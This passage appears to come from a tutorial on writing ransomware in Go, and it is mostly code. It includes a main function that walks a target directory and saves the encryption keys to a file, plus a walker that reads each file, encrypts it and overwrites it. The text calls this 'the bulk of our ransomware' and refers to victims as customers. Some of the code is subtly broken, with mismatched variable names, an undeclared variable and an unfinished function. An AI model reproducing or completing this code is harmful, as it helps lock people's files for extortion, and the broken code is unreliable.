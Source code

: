 ```golang
	clientPrv.D.SetInt64(0)
	for i := range clientPrv.Primes {
		clientPrv.Primes[i].SetInt64(0)
	}
}
```

This is the bulk of our ransomware! We just need to tie it into main and a walker function, both of which we know how to do. Our main function will start walking. I'm going to use a hardcoded path so I don't stomp something on my host. After our program has taken an belligerent stroll through the filesystem, we'll marshal our encryption info slice `eis` to JSON then write that to a file.

```golang
func main() {
	err := filepath.Walk(
		"C:\\Users\\tacixat\\prog\\ransomware\\victim", walker)
	if err != nil {
		log.Fatal("Error walking:", err)
		return
	}

	data, err := json.Marshal(eis)
	if err != nil {
		log.Fatal(err)
	}

	err = ioutil.WriteFile("file.keys", data, 0444)
	if err != nil {
		log.Fatal(err)
	}
}
```

Our walker here is also very straightforward. If we come in with an error, we'll print and return it. Returning the error will stop the walker entirely, which we will use for debugging. However, on a customer's machine we would want to return nil to keep the dream alive. After that, we will return nil if it is a directory. Then we read the file, encrypt it, store the key, then write it back to disk.

```golang
func walker(path string, info os.FileInfo, err error) error {
	if err != nil {
		log.Println("Error on:", path)
		return err
	}

	if info.IsDir() {
		log.Println(path, "(d)")
		return nil
	}

	log.Println(path, "(f)")

	pbs, err := ioutil.ReadFile(path)
	if err != nil {
		log.Fatal(err)
	}

	cbs, k = encryptHybrid(clientKey, bs)

	err = ioutil.WriteFile(path, cbs, 0666)
	if err != nil {
		log.Fatal(err)
	}

```